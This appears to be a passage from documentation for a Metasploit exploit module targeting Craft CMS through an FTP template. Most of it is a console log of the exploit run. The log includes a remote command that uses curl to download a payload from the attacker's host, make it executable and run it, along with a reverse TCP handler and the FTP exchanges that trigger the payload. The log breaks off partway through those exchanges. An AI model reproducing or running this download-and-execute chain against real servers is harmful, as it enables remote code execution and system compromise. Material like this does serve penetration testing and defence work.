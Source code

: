 ```bash


View the full module info with the info, or info -d command.

msf exploit(linux/http/craftcms_ftp_template) > exploit
[*] Command to run on remote host: curl -so ./jlVAsfWu http://192.168.1.36:8081/LoPlnjEpeOexZNVppn6cAA;chmod +x ./jlVAsfWu;./jlVAsfWu&
[*] Exploit running as background job 57.
[*] Exploit completed, but no session was created.
msf exploit(linux/http/craftcms_ftp_template) >
[*] Fetch handler listening on 192.168.1.36:8081
[*] HTTP server started
[*] Adding resource /LoPlnjEpeOexZNVppn6cAA
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Performing vulnerability check...
[+] The target is vulnerable.
[*] Starting FTP service...
[*] Started service listener on 192.168.1.36:9090
[*] FTP server started on 192.168.1.36:9090
[*] Sending HTTP request to trigger the payload...
[*] Triggering HTTP request...
[*] -> 220 FTP Server Ready
[*] on_client_command_user
[*] -> 331 Username ok, send password.
[*] on_client_command_pass
[*] -> 230 Login successful.
[*] on_client_command_cwd
[*] -> 250 "/default" is current directory.
[*] on_client_command_type
[*] -> 200 Type set to: Binary.
[*] on_client_command_size
[*] -> 550 /default is not retrievable.
[*] on_client_command_mdtm
[*] -> 550 /default is not retrievable.
[*] -> 220 FTP Server Ready
[*] on_client_command_user
[*] -> 331 Username ok, send password.
[*] on_client_command_pass
[*] -> 230 Login successful.
[*] on_client_command_cwd
[*] -> 550 Not a directory
[*] on_client_command_type
[*] -> 200 Type set to: Binary.
[*] on_client_command_size
[*] -> 213 154
[*] on_client_command_mdtm
[*] -> 213 20250110170738
[*] -> 220 FTP Server Ready
[*] on_client_command_user
[*] -> 331 Username ok, send password.
[*] on_client_command_pass
[*] -> 230 Login successful.
[*] on_client_command_cwd
[*] -> 550 Not a directory
[*] on_client_command_type
[*] -> 200 Type set to: Binary.
[*] on_client_command_size
[*] -> 213 154
[*] on_client_command_mdtm
[*] -> 213 20250110170738
[*] -> 220 FTP Server Ready
[*] on_client_command_user
```